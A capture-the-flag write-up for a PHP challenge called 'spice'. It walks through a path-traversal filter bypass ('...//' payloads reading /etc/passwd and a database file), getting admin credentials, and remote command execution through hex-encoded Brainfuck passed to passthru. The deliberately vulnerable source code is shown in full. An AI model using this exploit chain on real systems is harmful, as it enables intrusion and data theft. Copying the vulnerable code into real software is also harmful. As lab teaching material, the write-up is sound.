


# spice
> Try /spice.php

> engineer1337 : engineer1337

> wait 5 sec, after start (long boot process)

## About the Challenge
We have been given a website, and if we access the `/spice.php` endpoint the website will leak the source code

```php
<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;
use Firebase\JWT\Key;
use \dotzero\Brainfuck;
include_once 'getSecret.php';
include_once 'db.php';

    if (isset($_GET['username']) && isset($_GET['password'])){

        $db = getDb();
        $user = filter_var($_GET['username'], FILTER_SANITIZE_SPECIAL_CHARS);

        $statement = $db->prepare("SELECT password FROM users WHERE username='" . $user . "'");
        $result = $statement->execute();
        
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            $pass  = reset($row);
        }

        if ($pass === $_GET['password']){
            $key = getSecret();
            $payload = ['user' => $user ];
            $jwt = JWT::encode($payload, $key, 'HS256');
            setcookie('jwt', $jwt);
            echo $jwt;
        } else {
            echo "Bad creditionals";
        }
    }
    else{
        if (isset($_GET['bf_base16'])){
        $swag = 123; 
        } else {
           $source = show_source("spice.php", true);
           echo $source;
                
    }
    }
    
    if (isset($_COOKIE['jwt'])){
        if (isset($_GET['bf_base16'])){
        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ($user === 'admin'){
            $base_code = $_GET['bf_base16'];
            $code = hex2bin($base_code);

            $bf = new Brainfuck($code);
            $output = $bf->run(true);

            passthru($output); ///It's a joke !
        }
        die();
        }

        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ( $user === 'engineer1337'){
            echo "Enter the title of the article to read it ";
            if(isset($_GET['article'])){
                $string = $_GET['article'];
                $article = str_replace("./", '', $string);
                if (!file_exists($article)){
                    echo "<h1>The article does not exist!</h1>";
                } else {
                    echo "Article: " . file_get_contents($article) ;
                }
            }
        } 
    }
?>
```

## How to Solve?
If we check on the source code, we can input a password and username using GET method. We use `engineer1337` as a password and username. So the request will be like this



After login, we need to add `article` parameter. And there is a `Directory Traversal` vulnerability because there is `file_get_contents` function

```php
if(isset($_GET['article'])){
    $string = $_GET['article'];
    $article = str_replace("./", '', $string);
    if (!file_exists($article)){
        echo "<h1>The article does not exist!</h1>";
    } else {
        echo "Article: " . file_get_contents($article) ;
    }
}
```

But there is a filter, if we input `./` the code will replace it with blank. So to bypass the filter, we can append the payload. The usual payload is `../../../../etc/passwd` and we can bypass that using `...//...//...//...//etc/passwd`



If we check the `spice.php` source code. There is an interesting file, `db.php` and `getSecret.php` (We will ignore getSecret.php because that file just a rabbit hole). If we check the content of `db.php` we will get another interesting file


There is a SQLite database file, if we check the content of the file by accessing `/spice.php?username=engineer1337&password=engineer1337&article=...//...//...//...//...//...//...//...//...//var/www/html/vuln-php.db` we will get administrator username and password


Now, use the admin credential as username and password.


Because we now login as administrator, we can execute an OS command using `bf_base16` parameter. Why? Check the code below, because we already login as administrator, we can execute OS command using `passthru` PHP function

```php
if ($user === 'admin'){
    $base_code = $_GET['bf_base16'];
    $code = hex2bin($base_code);

    $bf = new Brainfuck($code);
    $output = $bf->run(true);

    passthru($output); ///It's a joke !
}
```

Because the code using `Brainfuck()` and `hex2bin()`. We need to wrap our payload using brainfuck first and then encode it using hex.

For example I want to run `env` command. The brainfuck will look like this
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+.+++++++++.++++++++.
```

And then change it to hex
```
2b2b2b2b2b2b2b2b2b2b5b3e2b3e2b2b2b3e2b2b2b2b2b2b2b3e2b2b2b2b2b2b2b2b2b2b3c3c3c3c2d5d3e3e3e3e2b2e2b2b2b2b2b2b2b2b2b2e2b2b2b2b2b2b2b2b2e
```

Send the payload to the server using `bf_base16` parameter and you will get the flag because the flag is located on environtment var


```
OmWars{fcd9ead7-575c-4d3f-b277-a8da7c509a97}
```